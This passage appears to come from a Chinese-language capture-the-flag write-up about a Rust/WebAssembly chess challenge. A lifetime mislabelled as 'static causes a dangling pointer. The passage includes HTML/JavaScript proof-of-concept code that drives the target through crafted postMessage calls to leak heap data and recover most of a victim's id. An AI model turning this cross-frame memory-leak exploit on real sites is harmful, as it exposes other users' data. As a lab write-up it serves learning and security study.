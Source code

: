 wasm 中有个 `game` 结构体，查看其标注可以知道它与 `start` 字段的生命周期是绑定的；对于 `validate_fen` 来说有两个生命周期标注，而在 `Game::start` 调用的时候，重新声明了 `'a` 的生命周期为 `'static` 即全局生命周期，但是传入是 `init` 显然并不是全局生命周期，它会在 `handler::init` 调用结束后被 drop，因此造成了悬垂指针。

一个 demo:

```html
<!DOCTYPE html>
<html>
    <body>
        <iframe src="about:blank" name="alert(1)"></iframe>
        <script>
            const sleep = (ms) => new Promise(r => setTimeout(r, ms));
            
            const game = window.frames[0];
            game.location = "http://localhost:1337";
            
            window.onmessage = async (e) => {
                if (e.data === "ready") {
                    // 先构造一个 game
                    e.source.postMessage({ id: "SilentE", type: "init", data: "8/8/8/8/8/8/8/8 " }, "*");
                    await sleep(250);
                    // 调用题目的 game
                    game.postMessage("ready", "*");
                    await sleep(250);
                    // 触发 error 拿到泄露数据
                    e.source.postMessage({ id: "SilentE", type: "init" }, "*");
                    return;
                }
                
                
                if (e.data.type === "error") {
                    console.log(e.data.id + e.data.data);
                    return;
                }
            }
        </script>
    </body>
</html>
```

wasm 的内存是由 js 的 `ArrayBuffer` 管理，但其具体的分配还是由源语言来决定，对于 Rust 来说，`wasm-bindgen` 导出了 [`__wbindgen_malloc`](https://github.com/rustwasm/wasm-bindgen/blob/76e4cad8bb0dadc27b532bc051817ecf9bc3ac7a/src/lib.rs#L1561)，其内部实现是用的标准库中的 `alloc`。

> Why do these values work? I didn't want to trace heap allocations, so... ¯\\(ツ)/¯

由于目前缺少对于 wasm 的直接调试，所以感觉只有 fuzz 比较有效，通过不断调试，能够拿到 id 的前 14 位:

```js
e.source.postMessage({ id: "A".repeat(16), type: "init" }, "*");
await sleep(100);
e.source.postMessage({ id: "SilentE", type: "init", data: "8/8/8/8/8/8/8/8 " }, "*");
await sleep(100);
game.postMessage("ready", "*");
await sleep(100);
e.source.postMessage({ id: "SilentE", type: "init"}, "*");
```
